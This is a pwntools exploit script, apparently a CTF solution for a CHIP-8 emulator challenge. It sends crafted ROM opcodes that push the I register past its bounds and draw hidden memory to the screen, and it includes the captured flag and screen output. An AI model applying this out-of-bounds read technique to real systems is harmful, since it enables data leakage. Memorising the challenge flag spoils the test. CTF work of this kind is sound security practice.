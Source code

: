 ```py
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
source ~/Downloads/pwndbg/gdbinit.py
'''.format(**locals())

pwn.context.endianness = 'big'

STEP=0

def exp():
    io = start()

    # every registers are zero-ed at the begin of the program
    code = [
        0xAFFF, # Annn - LD I, addr, I  = 0xfff
		0x6111 + 0xf*STEP, # 6xkk - LD Vx, byte, R1 = 0x1F
        0xF11E, # ADD I, R1, I => 0x101F
		0xDBCF  # Write on screen (xored with current pixels) 15 bytes from I
    ]

    code_to_send = [pwn.p16(k) for k in code]

    io.sendafter(b"Enter ROM code: ", b"".join(code_to_send))
    io.sendline(b"\n")
    io.sendline(b"\n")

    io.sendline(b"\n")

    io.interactive()

if __name__ == "__main__":
    exp()

"""
PWNME{CH1p-8_3mu14t0r_1s_h4Ck4bl3_1n_2023_y34h}
╔════════════════════════════════════════════════════════════════╗
║ █ █ ▄▄▄                                                        ║PW
║ █  ██▀▄                                                        ║NM
║ █▄▄▄▀▄█                                                        ║E{
║ █  ▄ ▀▀                                                        ║CH
║ ▄██   ▀                                                        ║18
║  █▄█▀ ▀                                                        ║-8
║ ▀▄█▀▀██                                                        ║_3
║ ▀▀ ▀▀ ▀                                                         m

second part
╔════════════════════════════════════════════════════════════════╗
║ ██▄▀█ █                                                        ║mu
║  ██ ▄ ▀                                                        ║14
║ ▀██ ▀                                                          ║t0
```